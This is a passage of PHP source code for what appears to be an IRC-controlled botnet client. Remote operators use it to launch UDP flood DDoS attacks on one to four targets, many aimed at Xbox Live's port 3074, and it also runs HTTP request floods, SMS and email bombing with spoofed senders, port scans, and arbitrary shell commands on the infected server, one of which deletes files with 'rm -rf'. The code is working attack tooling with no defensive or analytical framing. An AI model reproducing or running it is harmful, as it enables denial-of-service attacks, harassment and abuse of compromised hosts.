                                            case "id":
                                            {
                                                    $id = $this-&gt;messages['id'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"$id");
                                                break;
                                            }
                                            case "uptime":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $up = $this-&gt;ex( 'w' );
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." Uptime ".$part2."".$blue." ".$up."");
                                                break;
                                            }
                                            case "cellhelp":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $cellhelp = "To spam a Cell Phone you will have to know the NUMBER and CARRIER. Example Command: ".$red.".verizon 5551234567 youremail@fbi.gov Subject NumberOfTextsToSend Message";
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." Cell Spammer ".$part2."".$blue." ".$cellhelp."");
                                                break;
                                            }
                                            case "carriers":
                                            {
                                                    $part1 = $this-&gt;config['part1'];
                                                    $part2 = $this-&gt;config['part2'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $bybye = $this-&gt;ex( 'rm -rf *gow*' );
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$part1."".$red." CaRRieRs ".$part2."".$blue." UniX can currently spam - AT&T, Verizon, Sprint, Alltel, T-Mobile, US Celluar, and Boost Mobile");
                                                break;
                                            }
                                            case "ver":
                                            {
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."The bot version is $leetprefix$blue $version $leetsuffixred");
                                                break;
                                            }
                                            case "v":
                                            {
                                                    $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                                                    $red = $this-&gt;config['yellow'];
                                                    $version = $this-&gt;config['version'];
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ),"".$red."The bot version is $leetprefix$blue $version $leetsuffixred");
                                                break;
                                            }
                                            case "hop":
                                            {
                                                $channel = $mcmd[1];
                                                $this-&gt;send( "PART ".$channel );
                                                $this-&gt;join( $channel );
                                                break;
                                            }
                                            case "raw":
                                            {
                                                $this-&gt;send(strstr($msg,$mcmd[1]));
                                                break;
                                            }
                                            case "ip123":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $ipadd = "Ip AddReSS";
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue $ipadd $leetprefixwhite ".$red." ".$_SERVER['SERVER_ADDR']." $leetsuffixwhite");
                                                break;
                                            }
                                            case "lastlogin":
                                            {
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $part1 = $this-&gt;config['part1'];
                                                $part2 = $this-&gt;config['part2'];
                                                $attempt = $this-&gt;ex('cat ion_cache.dat');
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red LasT LogiN $part2$blue from $attempt");
                                                break;
                                            }
                                            case "commands":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $version = $this-&gt;config['version'];
                                                $cmdz = "Command List for UniX version $version private:";
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$leetprefixwhite$red $cmdz $leetsuffixwhite");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."UDP-Flood".$blue."] ? ? ? ".$red.".udpflood ip packetsize time".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Xbox Live Flood".$blue."] ? ? ? ".$red.".xblflood ip packetsize time port".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Two BK Flood".$blue."] ? ? ? ".$red.".2kidz first.ip second.ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Three BK Flood".$blue."] ? ? ? ".$red.".3kidz first.ip second.ip third.ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Four BK Flood".$blue."] ? ? ? ".$red.".4kidz first.ip second.ip third.ip fourth.ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Cell RapE".$blue."] ? ? ? ".$red.".cellhelp".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Cell Phone Carriers".$blue."] ? ? ? ".$red.".carriers".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Evidence Eraser".$blue."] ? ? ? ".$red.".noevidence".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Hop".$blue."] ? ? ? ".$red.".hop #channel".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Exec".$blue."] ? ? ? ".$red.".exec unix command(s)".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."eMail RapE".$blue."] ? ? ? ".$red.".bomb victim@fbi.gov spoofed@fake.com Subject NumberOfMails EmailBody".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Count".$blue."] ? ? ? ".$red.".count".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Nick".$blue."] ? ? ? ".$red.".nick (nzm or unix)".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Credits".$blue."] ? ? ? ".$red.".credits".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Version".$blue."] ? ? ? ".$red.".v or !ver or !version".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Bot Ip".$blue."] ? ? ? ".$red.".ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."MD5 Encrypt".$blue."] ? ? ? ".$red.".md5 string_to_encrypt".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."DnS".$blue."] ? ? ? ".$red.".dns google.com".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Kill Bot".$blue."] ? ? ? ".$red.".exit or !gtfo".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Reconnect".$blue."] ? ? ? ".$red.".restart".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Whois".$blue."] ? ? ? ".$red.".whois 127.0.0.1".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Raw Irc Commands".$blue."] ? ? ? ".$red.".join, .part, .msg".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Port Scan".$blue."] ? ? ? ".$red.".pscan ip port".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Infected Site Check".$blue."] ? ? ? ".$red.".site".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Random Nick".$blue."] ? ? ? ".$red.".randnick".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."URL Bomb".$blue."] ? ? ? ".$red.".urlbomb site.com /path NumberOfRefreshes".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Server Uptime".$blue."] ? ? ? ".$red.".uptime".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Speed Test".$blue."] ? ? ? ".$red.".speedtest".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Quick UDP-Flood".$blue."] ? ? ? ".$red.".quick ip".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Check Last Login".$blue."] ? ? ? ".$red.".lastlogin".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Raw Irc Command".$blue."] ? ? ? ".$red.".raw command".$blue." ? ? ?");
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ),"$blue [".$red."Change Command Prefix".$blue."] ? ? ? ".$red.".changeprefix newprefix Example: .changeprefix !".$blue." ? ? ?");
                                                break;
                                            }
                                            case "md5":
                                            {
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $blue = $this-&gt;config['blue'];
                                                $str_md5 = substr( strstr( $msg, $mcmd[0] ), strlen( $mcmd[0] ) + 1 );
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$blue [ $red MD5 $blue ]: $blue [ ".$red."'".$str_md5."' ".$blue."Encrypts To $red'".md5($str_md5)."' $blue ]" );
                                                break;
                                            }
                                            case "dns":
                                            {
                                                if(isset($mcmd[1]))
                                                   {
                                                      $ip = explode(".",$mcmd[1]);
                                                      if(count($ip)==4 && is_numeric($ip[0]) && is_numeric($ip[1])
                                                        && is_numeric($ip[2]) && is_numeric($ip[3]))
                                                      {
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $blue = $this-&gt;config['blue'];
                                                         $this-&gt;privmsg($this-&gt;ffff_you( ),"$leetprefix $blue [ $red DnS $blue ]: $red ".$mcmd[1]." $blue Resolves To $leetprefix $red ".gethostbyaddr($mcmd[1]));
                                                          }
                                                      else
                                                      {
                                                        $leetprefix = $this-&gt;config['leetprefix'];
                                                        $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                        $red = $this-&gt;config['yellow'];
                                                        $blue = $this-&gt;config['blue'];
                            $this-&gt;privmsg($this-&gt;ffff_you( ),"$blue [ $red DnS $blue ]: $red ".$mcmd[1]." $blue Resolves To $red ".gethostbyname($mcmd[1]));
                                                      }
                                                   }
                                                break;
                                            }
                                            case "exit":
                                            {
                                                fclose( $this-&gt;conn );
                                                exit( );
                                                break;
                                            }
                                            case "husk":
                                            {
                                                fclose( $this-&gt;conn );
                                                exit( );
                                                break;
                                            }
                                            case "gtfo":
                                            {
                                                fclose( $this-&gt;conn );
                                                exit( );
                                                break;
                                            }
                                            case "restart":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red Restarting! $leetsuffixwhite $blue Please wait!" );
                                                $this-&gt;send( "QUIT :restart command from ".$nick );
                                                fclose( $this-&gt;conn );
                                                $this-&gt;start();
                                                break;
                                            }
                                            case "lastresort":
                                            {
                                                if( count( $mcmd ) &gt; 3 )
                                                {
                                                    $server = $mcmd[1];
                                                    $port = $mcmd[2];
                                                    $channel = $mcmd[3];
                                                    $key = $mcmd[4];
                                                    if( $this-&gt;using_encode )
                                                    {
                                                        $this-&gt;config[ 'server' ] = base64_encode( $server );
                                                        $this-&gt;config[ 'chan' ] = base64_encode( str_replace( "#", "", $channel ) );
                                                        $this-&gt;config[ 'key' ] = base64_encode( $key );
                                                    }
                                                    else
                                                    {
                                                        $this-&gt;config[ 'server' ] = $server;
                                                        $this-&gt;config[ 'chan' ] = str_replace( "#", "", $channel );
                                                        $this-&gt;config[ 'key' ] = $key;
                                                    }
                                                    $this-&gt;config[ 'port' ] = $port;
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "[ moveserver ] ".$server." =&gt; ".$port." =&gt; ".$channel." =&gt; ".$key );
                                                    $this-&gt;send( "QUIT :moveserver command from ".$nick );
                                                    fclose( $this-&gt;conn );
                                                    $this-&gt;start();
                                                }
                                                break;
                                            }
                                            case "whois":
                                            {
                                                $param2 = $mcmd[1];
                                                if( !empty( $param2 ) )
                                                {
                                                    //do it
                                                    //http://www.geoip.co.uk/?IP=98.214.115.193&submit.x=23&submit.y=11
                                                    $fp = fsockopen( "geoip.co.uk", 80, $errno, $errstr, 30 );
                                                    if( $fp )
                                                    {
                                                        $out = "GET /ipwhois.php?ip=$param2&Submit=submit HTTP/1.1\r\n";
                                                        $out .= "Host: geoip.co.uk\r\n";
                                                        $out .= "Keep-Alive: 300\r\n";
                                                        $out .= "Connection: keep-alive\r\n\r\n";
                                                        fwrite( $fp, $out );
                                                        $whodata = '';
                                                        while(!feof($fp))
                                                        {
                                                            /*do nothing*/
                                                            $whodata .= fread( $fp, 1024 );
                                                        }
                                                        $countryc = explode( "            :", $whodata );
                                                        $countryc = explode( "            : &lt;img src=", $countryc[1] );
                                                        $country = strip_tags( $countryc[0] );
                                                        $statec = explode( "$countryc", $whodata );
                                                        $statec = explode( "                        &lt;br&gt;", $statec[1] );
                                                        $state = strip_tags( $statec[0] );
                                                        $cityc = explode( "$statec", $whodata );
                                                        $cityc = explode( "            : &lt;img src=", $cityc[1] );
                                                        $city = strip_tags( $cityc[0] );
                                                        fclose( $fp );
                                                        $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                                                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                                                                                $red = $this-&gt;config['yellow'];
                                                                                                                $blue = $this-&gt;config['blue'];
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red $param2 $leetsuffixwhite - $red Country - $blue $country" );
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red $param2 $leetsuffixwhite - $red City - $blue $city" );
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "$leetprefixwhite $red $param2 $leetsuffixwhite - $red State - $blue $state" );
                                                    }else{
                                                        $this-&gt;privmsg( $this-&gt;ffff_you( ), "[ whois ] Error: $errstr" );
                                                    }
                                                }
                                                else
                                                {
                                                    $this-&gt;privmsg( $this-&gt;ffff_you( ), "[ whois ] Invalid params, use .whois &lt;ip/host&gt;" );
                                                }
                                                break;
                                            }
                                            case "join":
                                            {
                                                $channel = $mcmd[1];
                                                $key = $mcmd[2];
                                                $this-&gt;join( $channel, $key );
                                                break;
                                            }
                                            case "part":
                                            {
                                                $this-&gt;send( "PART ".$mcmd[1] );
                                            }
                                            case "msg":
                                            {
                                                $person = $mcmd[1];
                                                $text = substr( strstr( $msg, $mcmd[1] ), strlen( $mcmd[1] ) + 1 );
                                                $this-&gt;privmsg( $person, $text );
                                                break;
                                            }
                                            case "pscan":
                                                      $leetprefix = $this-&gt;config['leetprefix'];
                                                    $leetsuffixred = $this-&gt;config['leetsuffixred'];
                                                    $blue = $this-&gt;config['blue'];
                               if(count($mcmd) &gt; 2)
                               {
                                  if(fsockopen($mcmd[1],$mcmd[2],$e,$s,15))
                                     $this-&gt;privmsg($this-&gt;ffff_you( ),"$leetprefix $blue Port Scan $leetsuffixred : $red ".$mcmd[1].":".$mcmd[2]." $blue is OPEN !");
                                  else
                                     $this-&gt;privmsg($this-&gt;ffff_you( ),"$leetprefix $blue Port Scan $leetsuffixred : $blue ".$mcmd[1].":".$mcmd[2]." $red is CLOSED !");
                                      break;
                               }
                                            case "software":
                                            {
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), $_SERVER[ 'SERVER_SOFTWARE' ] );
                                                break;
                                            }
                                            case "site123":
                                            {
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $blue = $this-&gt;config['blue'];
                                                $ipzzz = ( $_SERVER["HTTP_HOST"] );
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$blue This bot is running on $leetprefixwhite $red $ipzzz $leetsuffixwhite" );
                                                break;
                                            }
                                            case "randnick":
                                            {
                                                $this-&gt;set_nick();
                                                break;
                                            }
                                            case "logout":
                                            {
                                                $logoutmsg = $this-&gt;messages['logoutmsg'];
                                                $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
                                                $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
                                                $red = $this-&gt;config['yellow'];
                                                $part2 = $this-&gt;config['part2'];
                                                $this-&gt;remove_auth( $host );
                                                $this-&gt;privmsg( $this-&gt;ffff_you( ), "$logoutmsg $leetprefixwhite $red$nick $leetsuffixwhite $part2" );
                                                break;
                                            }
                                            case "urlbomb":
                                            {
                                                $this-&gt;urlbomb( $mcmd[ 1 ], $mcmd[ 2 ], $mcmd[ 3 ] );
                                                break;
                                            }
                                            case "udpflood":
                                                {
                                                   if( count( $mcmd ) &gt; 3 )
                                                   {
                                                      $this-&gt;udpflood($mcmd[1],$mcmd[2],$mcmd[3]);
                                                   }
                                                }
                                            case "stop":
                                            {
                                            fclose($fp);
                                            break;
                                            }
                                            case "xblflood":
                                            {
                                                   if( count( $mcmd ) &gt; 4 )
                                                   {;
                                                      $this-&gt;udpflood4($mcmd[1],$mcmd[2],$mcmd[3],$mcmd[4]);
                                                   }
                                                break;
                                            }
                                            case "speedtest":
                                            {
                                                      $this-&gt;udpflood3(hi,650000,5);
                                                break;
                                            }
                                            case "2kidz":
                                            {
                                                      $this-&gt;udpflood5($mcmd[1],$mcmd[2]);
                                                break;
                                            }
                                            case "3kidz":
                                            {
                                                      $this-&gt;udpflood7($mcmd[1],$mcmd[2],$mcmd[3]);
                                                break;
                                            }
                                            case "4kidz":
                                            {
                                                      $this-&gt;udpflood6($mcmd[1],$mcmd[2],$mcmd[3],$mcmd[4]);
                                                break;
                                            }
                                                    case "quick":
                                            {
                                                   if( count( $mcmd ) &gt; 1 )
                                                   {
                                                      $this-&gt;udpflood2($mcmd[1],65000,60);
                                                   }
                                                break;
                                                }
                                        }
                                    }
                                }
                            break;
                        }
                    }
                }
                $old_buf = $this-&gt;buf;
            }
            $this-&gt;start();
        }
        function scanport( $host, $port )
        {
            if( fsockopen( $host, $port, $e, $s ) )
            {
                return 1;
            }
            return 0;
        }
        function urlbomb( $host, $path, $times, $mode = 0 )
        {
            if( !isset( $host ) || !isset( $path ) || !isset( $times ) )
                return;
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $leetprefix = $this-&gt;config['leetprefix'];
            $leetsuffixred = $this-&gt;config['leetsuffixred'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['blue'];
            $http = "http://";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$leetprefixwhite $red URLbomb started! $leetsuffixwhite  on $red [ $blue ".$http."".$host."".$path." $red ]");
            $success = 0;
            for( $i = 0; $i &lt; $times; $i++ )
            {
                $fp = fsockopen( $host, 80, $errno, $errstr, 30 );
                if( $fp )
                {
                    $out = "GET /".$path." HTTP/1.1\r\n";
                    $out .= "Host: ".$host."\r\n";
                    $out .= "Keep-Alive: 300\r\n";
                    $out .= "Connection: keep-alive\r\n\r\n";
                    fwrite( $fp, $out );
                    if( $mode != 0 )
                    {
                        while(!feof($fp)){/*do nothing*/}
                    }
                    fclose( $fp );
                    $success++;
                }
            }
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $leetprefix = $this-&gt;config['leetprefix'];
            $leetsuffixred = $this-&gt;config['leetsuffixred'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['blue'];
            $http = "http://";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$leetprefixwhite $red URLbomb finished! $leetsuffixwhite $blue on $red [ $blue ".$http."".$host."".$path." $red ] $blue [$red Times Visited: $blue ".$success." $blue ]" );
        }
        function udpflood2( $host, $packetsize, $time )
        {
            $udpmsgfast = $this-&gt;messages['udpmsgfast'];
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$udpmsgfast Started On $leetprefixwhite$red $host $leetsuffixwhite" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $xboxlive = "3074";
                $fp=fsockopen("udp://".$host,$xboxlive,$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $fag = "$udpmsgfast - Sent Total $leetprefixwhite$red $env Megabytes $leetsuffixwhite$red With A Speed Of $leetprefixwhite$red $vel MegaBytes/Second $leetsuffixwhite";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood3( $host, $packetsize, $time )
        {
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red The Speedtest Has been Started.... $part2 - $blue Please Wait......" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $xboxlive = "3074";
                $fp=fsockopen("udp://".$host,$xboxlive,$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red The Speedtest Is Complete. $part2 - $blue This Bot Hits At".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood5( $host, $crack )
        {
            $packetsize = "65000";
            $time = "60";
            $port = "3074";
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red TwO PlayeR DDoS $part2 - $blue Booting $host and $crack! Attacking on port $port" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $port = "3074";
                $fp=fsockopen("udp://".$host,$port,$e,$s,5);
                $fp2=fsockopen("udp://".$crack,$port,$e,$s,5);
                fwrite($fp,$packet);
                fwrite($fp2,$packet);
                fclose($fp);
                fclose($fp2);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red TwO PlayeR DDoS! $part2 - $blue $host and $crack are offline! ".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood6( $host, $crack, $herion, $coke )
        {
            $packetsize = "65000";
            $time = "60";
            $port = "3074";
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red 4 Player DDoS! $part2 - $blue Booting $host, $crack, $herion, and $coke! Attacking on port $port" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $port = "3074";
                $fp=fsockopen("udp://".$host,$port,$e,$s,5);
                $fp2=fsockopen("udp://".$crack,$port,$e,$s,5);
                $fp3=fsockopen("udp://".$herion,$port,$e,$s,5);
                $fp4=fsockopen("udp://".$coke,$port,$e,$s,5);
                fwrite($fp,$packet);
                fwrite($fp2,$packet);
                fwrite($fp3,$packet);
                fwrite($fp4,$packet);
                fclose($fp);
                fclose($fp2);
                fclose($fp3);
                fclose($fp4);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red 4 Player DDoS CompletE! $part2 - $blue $host, $crack, $herion, and $coke are ALL offline! ".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
    function udpflood7( $stoner, $allalone, $daynnite )
        {
            $packetsize = "65000";
            $time = "60";
            $port = "3074";
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $speedtest = $this-&gt;messages['speedtest'];
            $speedtestfin = $this-&gt;messages['speedtestfin'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $green = $this-&gt;config['green'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$part1$red 3 Player DDoS! $part2 - $blue Booting $stoner, $allalone, and $daynnite! Attacking on port $port" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $port = "3074";
                $fp2=fsockopen("udp://".$stoner,$port,$e,$s,5);
                $fp3=fsockopen("udp://".$allalone,$port,$e,$s,5);
                $fp4=fsockopen("udp://".$daynnite,$port,$e,$s,5);
                fwrite($fp2,$packet);
                fwrite($fp3,$packet);
                fwrite($fp4,$packet);
                fclose($fp2);
                fclose($fp3);
                fclose($fp4);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $red = $this-&gt;config['yellow'];
            $part1 = $this-&gt;config['part1'];
            $part2 = $this-&gt;config['part2'];
            $blue = $this-&gt;config['yellow'];
            $fag = "$part1$red 3 Player DDoS CompletE! $part2 - $blue $stoner, $allalone, and $daynnite are now offline offline! ".$red." $vel MegaBytes/Second";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
        function udpflood( $host, $packetsize, $time )
        {
            $udpmsg = $this-&gt;messages['udpmsg'];
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$udpmsg Started On $leetprefixwhite$red $host $leetsuffixwhite for $leetprefixwhite$red $time Seconds $leetsuffixwhite$red With $leetprefixwhite$red $packetsize Packets $leetsuffixwhite" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $fp=fsockopen("udp://".$host,mt_rand(0,6000),$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
